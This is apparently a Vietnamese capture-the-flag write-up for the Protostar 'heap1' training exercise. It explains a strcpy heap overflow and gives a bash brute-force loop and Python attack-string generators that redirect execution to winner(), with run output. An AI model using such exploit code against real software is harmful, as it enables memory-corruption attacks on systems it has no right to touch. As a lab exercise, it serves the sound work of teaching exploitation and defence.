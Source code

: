 # **heap1**
## Source code
```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct internet {
  int priority;
  char *name;
};

void winner()
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```

## Vulnerability
strcpy()
## Exploit
- Phân tích bộ nhớ:

<img src="pictures/memory_analysis.png">

- Có thể dùng overflow của strcpy thứ nhất để ghi đè lên vùng heap của i2.
- Hàm strcpy() nhận vào địa chỉ của nguồn và đích. Nếu ta chỉnh sửa địa chỉ đích thành địa chỉ một ô chứa return address thì có thể thay đổi flow của chương trình.

<img src="pictures/vuln.png">

- Địa chỉ hàm winner(): 0x08048494
- Địa chỉ return address của strcpy() thứ 2: Tương tự như bài format4: tìm trong gdb dễ, nhưng chạy thực tế thì stack sẽ bị xê dịch. Trong bài này không có cách tìm được địa chỉ return address nên sẽ đoán.
- Trong gdb, địa chỉ return address là: 0xbfff73c. Thử với +- 150.

**bash script**
```
#!/bin/bash

for i in {-150..150}; do
echo $i;
/opt/protostar/bin/heap1 $(python /path/to/python/attack-string/generator.py $i)
done
```

**python attack-string generator**
```
import struct
import sys

gdb_strcpy_return_addr = struct.pack("I", 0xbffff73c + int(sys.argv[1]))
winner_addr = struct.pack("I", 0x08048494)

print "A"*0x14 + gdb_strcpy_return_addr + " " + winner_addr
```
- Kết quả chạy: /bin/bash /path/to/bashscript
```
64
and we have a winner @ 1654273060
bash_script: line 3:  4718 Segmentation fault      /opt/protostar/bin/heap1 $(python /tmp/script.py $i)

112
and that's a wrap folks!
and we have a winner @ 1654273061
bash_script: line 3:  4814 Segmentation fault      /opt/protostar/bin/heap1 $(python /tmp/script.py $i)
```
- Thành công ở 2 lần i bằng 64 và 112. Sau một hồi suy nghĩ thì mới nhận ra ngoài ghi đè lên return address ở strcpy() thứ 2 thì ta cũng có thể ghi đè lên return address của main nữa. 

- Thêm địa chỉ hàm exit vào cuối attack-string để không bị segmentation fault

**python attack-string generator**
```
import struct
import sys

gdb_strcpy_return_addr = struct.pack("I", 0xbffff73c + int(sys.argv[1]))
winner_addr = struct.pack("I", 0x08048494)
exit_addr = struct.pack("I", 0xb7ec60c0)

print "A"*0x14 + gdb_strcpy_return_addr + " " + winner_addr + exit_addr

```
# References
